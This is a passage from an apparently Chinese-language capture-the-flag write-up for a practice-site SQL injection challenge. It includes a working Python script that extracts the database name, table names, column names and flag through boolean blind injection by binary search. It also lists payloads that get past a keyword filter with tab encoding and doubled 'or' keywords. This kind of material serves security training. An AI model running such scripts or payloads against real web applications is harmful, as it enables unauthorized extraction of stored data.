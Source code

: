 ![fuzz-2](fuzz-2.png)

这些字符都会替换为空，接下来的payload就很好构建了。

写出脚本
```python
import requests
import re


result = ""
url = "http://ctf5.shiyanbar.com/web/earnest/index.php"
headers = {"Content-Type": "application/x-www-form-urlencoded"}
for i in range(1, 100):
    low = 32
    high = 126
    mid = (low + high) >> 1
    while mid < high:
        # payload = "id=0'%09oorr%09(ascii(mid((database())from({0})foorr(1)))>{1})='1"
        # ctf_sql_bool_blind
        # payload = "id=0'%09oorr%09(ascii(mid((select%09group_concat(table_name)%09from%09infoorrmation_schema.tables%09where%09table_schema='ctf_sql_bool_blind')from({0})foorr(1)))>{1})='1"
        # fiag,users
        # payload = "id=0'%09oorr%09(ascii(mid((select%09group_concat(column_name)%09from%09infoorrmation_schema.columns%09where%09table_name='fiag')from({0})foorr(1)))>{1})='1"
        # fL$4G
        payload = "id=0'%09oorr%09(ascii(mid((select%09group_concat(fL$4G)%09from%09fiag)from({0})foorr(1)))>{1})='1"
        payload = payload.format(i, mid)
        s = requests.post(url, data=payload, headers=headers)
        content = s.text
        content = re.findall(r"You are not in", content)
        if content:
            # 返回为false，说明不成立，缩小上线
            high = mid
        else:
            # 缩小下线
            low = mid + 1
        mid = (low + high) >> 1
    result += chr(mid)
    print(result)
```
```sql
测试脚本使用的payload
id=1'%26%26(select(case(1)when(1)then(1)else(0)end))%26%26'1
id=0'%09oorr%09(ascii(mid((database())from(1)foorr(1)))>1)='1
id=0'%09oorr%09(ascii(mid((select%09group_concat(table_name)%09from%09infoorrmation_schema.tables%09where%09table_schema='ctf_sql_bool_blind')from(1)foorr(1)))>1)='1
id=0'%09oorr%09(ascii(mid((select%09group_concat(column_name)%09from%09infoorrmation_schema.columns%09where%09table_name='fiag')from(1)foorr(1)))>1)='1
id=0'%09oorr%09(ascii(mid((select%09group_concat(fL$4G)%09from%09fiag)from(1)foorr(1)))>1)='1
```
<br>
